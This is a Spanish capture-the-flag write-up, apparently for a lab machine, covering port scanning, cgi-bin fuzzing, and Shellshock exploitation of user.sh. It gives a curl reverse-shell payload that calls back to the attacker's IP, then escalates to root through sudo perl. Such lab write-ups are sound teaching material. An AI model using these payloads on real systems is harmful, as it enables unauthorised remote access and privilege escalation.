 Empezamos listando los puertos abiertos: 

![image](https://user-images.githubusercontent.com/122020487/227734927-1d08866e-35e0-42b4-a802-09ee5d913842.png)

Vemos que solo tenemos el puerto 80 disponible para atacar ya que el puerto 2222 es ssh y no tenemos credenciales, por lo tanto entramos a la web viendo el siguiente contenido: 

![image](https://user-images.githubusercontent.com/122020487/227735008-08d49cee-aea2-4ffb-8c9a-f67c350a0225.png)

Como no vemos nada con lo que podamos empezar, comenzamos con el fuzzing de la web: 

![image](https://user-images.githubusercontent.com/122020487/227735075-73406ff3-13fb-448f-b525-2577c18b7286.png)

Vemos dos directorios en este caso nos interesa cgi-bins ya que a priori icons no debería ser de interés, por lo que procedemos a fuzzear el path de cgi-bin. Ya sabemos que este path contiene scripts y que puede ser vulnerable a shellshock por lo que procedemos a buscar los scripts que hay dentro del directorio:

wfuzz -c --hc=404 -t 200 -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi-ps1-py http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z 

![image](https://user-images.githubusercontent.com/122020487/227735718-8d380e7b-4b3c-46b6-9a5e-f8d09a7103d0.png)

Hemos obtenido el script user.sh, por lo que si hacemos una petición al directorio se nos descargará el script: 

![image](https://user-images.githubusercontent.com/122020487/227735833-bc3621c8-80d3-43ec-a41a-24ecea5ae521.png)

Ahora procedemos con nmap a comprobar si este path es vulnerable a shellshock: 

![image](https://user-images.githubusercontent.com/122020487/227736032-8eaed6b7-2d65-430d-9af5-38fd22462638.png)

También para saber si es vulnerable podemos usar la siguiente petición: 

curl -H 'User-Agent: () { :; }; echo; echo web vulnerable' 'http://10.10.10.56/cgi-bin/user.sh'
![image](https://user-images.githubusercontent.com/122020487/227736234-d021e631-daf6-4619-aa8e-25361232a8fe.png)

Como vemos, el path es vulnerable por lo que empezamos a explotar la vulnerabilidad enviandonos una web shell: 

curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.6/333 0>&1"' 'http://10.10.10.56/cgi-bin/user.sh'

Una vez hemos obtenido la webshell mediante netcat podemos ejecutar comandos en el propio servidor y obtener la flag del usuario:

![image](https://user-images.githubusercontent.com/122020487/227736480-40b7ae33-2c88-4580-b947-678209bc00fe.png)

La escalada es bastante fácil, lanzamos el comando sudo -l y vemos que podemos usar sudo con perl:

![image](https://user-images.githubusercontent.com/122020487/227736513-2e18f97d-1cdd-4665-8691-328f804e0e0e.png)

Por lo que conseguimos escalar privilegios con el siguiente comando: 

sudo perl -e 'exec "/bin/bash";'

![image](https://user-images.githubusercontent.com/122020487/227736596-71021373-88cd-4ea4-b66a-452d940cda63.png)
